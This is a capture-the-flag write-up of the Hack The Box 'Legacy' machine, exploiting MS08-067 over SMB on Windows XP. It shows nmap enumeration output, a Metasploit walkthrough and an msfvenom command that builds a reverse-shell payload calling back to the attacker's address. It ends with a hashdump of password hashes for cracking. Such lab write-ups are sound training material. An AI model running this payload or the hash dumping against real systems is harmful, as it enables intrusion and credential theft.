 # Legacy

## Overview

Legacy is a pretty straightforward machine which exploits SMB on Windows. This machine showcases CVE-2008-4250 / ms08\_067.

1. [https://nvd.nist.gov/vuln/detail/cve-2008-4250](https://nvd.nist.gov/vuln/detail/cve-2008-4250)
2. [https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2008-4250](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2008-4250)
3. [https://support.microsoft.com/en-us/topic/ms08-067-vulnerability-in-server-service-could-allow-remote-code-execution-ac7878fc-be69-7143-472d-2507a179cd15](https://support.microsoft.com/en-us/topic/ms08-067-vulnerability-in-server-service-could-allow-remote-code-execution-ac7878fc-be69-7143-472d-2507a179cd15)

## Enumeration

### Nmap

```bash
sudo nmap -Pn -sV -sC 10.129.1.111 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-23 10:41 EDT
Nmap scan report for 10.129.1.111
Host is up (0.021s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 5d00h27m39s, deviation: 2h07m16s, median: 4d22h57m39s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:ec:a3 (VMware)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2022-03-28T19:39:25+03:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.34 seconds
```

From the Nmap scan, we see that SMB is open and the OS is Windows XP



A handy command that we can run for SMB vulnerability identification is the following:

```bash
sudo nmap --script smb-vuln* -p 445 10.129.1.111
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-23 10:49 EDT
Nmap scan report for 10.129.1.111
Host is up (0.021s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 5.45 seconds
```

The above command shows this machine is vulnerable to 2 SMB vulnerabilities.

## Exploitation with Metasploit

Using the Metasploit module `exploit/windows/smb/ms08_067_netapi`, we'll set up our payload as such:

![](<../../../../.gitbook/assets/image (49).png>)

![](<../../../../.gitbook/assets/image (69).png>)

{% hint style="info" %}
To set options (e.g. RHOSTS), enter "set RHOST \[target IP]"
{% endhint %}

With this information entered, we can now run the exploit with `run` or `exploit`

![](<../../../../.gitbook/assets/image (43) (1).png>)

As shown in the image above, running getuid returns us NT AUTHORITY\SYSTEM which means no privilege escalation is needed as we have the highest privileges on the current system.

## Exploitation without Metasploit

The exploit I used can be found here:

{% embed url="https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py" %}

The script explains how to achieve your goal with showing where to make modifications and what commands to run

First I run the msfvenom command mentioned in the code.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.13 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
```

![](<../../../../.gitbook/assets/image (57).png>)

Then replace the shellcode in the code with the shellcode we just generated.

Running an nmap scan on the target once more with -O (OS Detection) reveals that the target is running Microsoft Windows XP SP3 (94%). With this is mind, we'll trying using this sample command

![](<../../../../.gitbook/assets/image (67).png>)

Let's set up a netcat listener and then run the command and you should get a reverse shell.

I've followed these articles, but had no success.

{% embed url="https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#ms-17-010" %}

{% embed url="https://blog.nullprism.io/posts/htb-legacy" %}

## Post Exploitation

One thing we can do with the meterpreter shell is run a hashdump on the target

![](<../../../../.gitbook/assets/image (48).png>)

We can then take these hashes and crack them with JohnTheRipper or Hashcat
